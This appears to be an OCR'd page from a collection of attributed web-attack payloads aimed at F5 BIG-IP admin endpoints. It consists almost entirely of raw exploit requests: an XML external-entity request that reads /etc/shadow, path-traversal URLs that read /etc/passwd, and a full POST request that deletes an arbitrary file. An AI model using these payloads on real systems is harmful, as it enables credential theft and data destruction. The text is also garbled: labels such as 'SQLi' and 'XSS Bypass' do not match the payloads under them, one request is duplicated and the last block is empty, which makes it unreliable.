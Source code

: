 SQLi by @Giuseppe D’Amore

```
POST /sam/admin/vpe2/public/php/server.php HTTP/1.1Host: bigipCookie: BIGIPAuthCookie=*VALID_COOKIE*Content-Length: 143<?xml version="1.0" encoding='utf-8' ?><!DOCTYPE a [<!ENTITY e SYSTEM '/etc/shadow'> ]><message><dialogueType>&e;</dialogueType></message>
```

### **Kona SiteDefender**

HTML Injection by @sp1d3rs

```
POST /sam/admin/vpe2/public/php/server.php HTTP/1.1Host: bigipCookie: BIGIPAuthCookie=*VALID_COOKIE*Content-Length: 143<?xml version="1.0" encoding='utf-8' ?><!DOCTYPE a [<!ENTITY e SYSTEM '/etc/shadow'> ]><message><dialogueType>&e;</dialogueType></message>
```

XSS Bypass by @Jonathan Bouman

```
/tmui/Control/jspmap/tmui/system/archive/properties.jsp?&name=../../../../../etc/passwdDelete Arbitrary File
```

XSS Bypass by @zseano

```
/tmui/Control/jspmap/tmui/system/archive/properties.jsp?&name=../../../../../etc/passwd
```

XSS Bypass by @0xInfection

```
POST /tmui/Control/form HTTP/1.1Host: site.comUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:32.0) Gecko/20100101 Firefox/32.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateCookie: JSESSIONID=6C6BADBEFB32C36CDE7A59C416659494; f5advanceddisplay=""; BIGIPAuthCookie=89C1E3BDA86BDF9E0D64AB60417979CA1D9BE1D4; BIGIPAuthUsernameCookie=admin; F5_CURRENT_PARTITION=Common; f5formpage="/tmui/system/archive/properties.jsp?&; f5_refreshpage=/tmui/Control/jspmap/tmui/system/archive/properties.jsp%3Fname%3D../../../../../etc/passwdContent-Type: application/x-www-form-urlencoded_form_holder_opener_=&handler=%2Ftmui%2Fsystem%2Farchive%2Fproperties&handler_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties&showObjList=&showObjList_before=&hideObjList=&hideObjList_before=&enableObjList=&enableObjList_before=&disableObjList=&disableObjList_before=&_bufvalue=icHjvahr354NZKtgQXl5yh2b&_bufvalue_before=icHjvahr354NZKtgQXl5yh2b&_bufvalue_validation=NO_VALIDATION&com.f5.util.LinkedAdd.action_override=%2Ftmui%2Fsystem%2Farchive%2Fproperties&com.f5.util.LinkedAdd.action_override_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties&linked_add_id=&linked_add_id_before=&name=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&name_before=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&form_page=%2Ftmui%2Fsystem%2Farchive%2Fproperties.jsp%3F&form_page_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties.jsp%3F&download_before=Download%3A+..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&restore_before=Restore&delete=Delete&delete_before=Delete
```

XSS Bypass by @sp1d3rs

```
```